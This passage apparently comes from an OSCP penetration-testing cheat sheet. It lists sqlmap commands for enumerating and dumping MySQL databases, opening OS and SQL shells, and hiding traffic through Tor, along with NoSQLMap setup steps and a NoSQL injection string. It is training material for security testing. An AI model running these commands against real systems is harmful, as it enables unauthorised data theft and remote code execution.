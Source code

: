     *   Enumerate databases

        `sqlmap --dbms=mysql -u "$URL" --dbs`

    *   Enumerate tables from a specific database

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables`

    *   Dump table data from a specific database and table

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump`

    *   Specify parameter to exploit

        `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2`

    *   Specify parameter to exploit in 'nice' URIs (exploits param1)

        `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs`

    *   Get OS shell

        `sqlmap --dbms=mysql -u "$URL" --os-shell`

    *   Get SQL shell

        `sqlmap --dbms=mysql -u "$URL" --sql-shell`

    *   SQL query

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`

    *   Use Tor Socks5 proxy

        `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`

*   **NoSQLMap Examples** You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`). NoSQLMap can help you to automate NoSQLDatabase enumeration.

*   NoSQLMap Installation

    <div class="highlight highlight-source-shell">

    <pre>git clone https://github.com/codingo/NoSQLMap.git
    <span class="pl-c1">cd</span> NoSQLMap/
    ls
    pip install couchdb
    pip install pbkdf2
    pip install ipcalc
    python nosqlmap.py</pre>

    </div>

*   Often you can create an exception dump message with MongoDB using a malformed NoSQLQuery such as:

      `a'; return this.a != 'BadData’'; var dummy='!`

*   ## [](#password-attacks)Password Attacks

    *   AES Decryption  
        [http://aesencryption.net/](http://web.archive.org/web/20171113221652/http://aesencryption.net/)
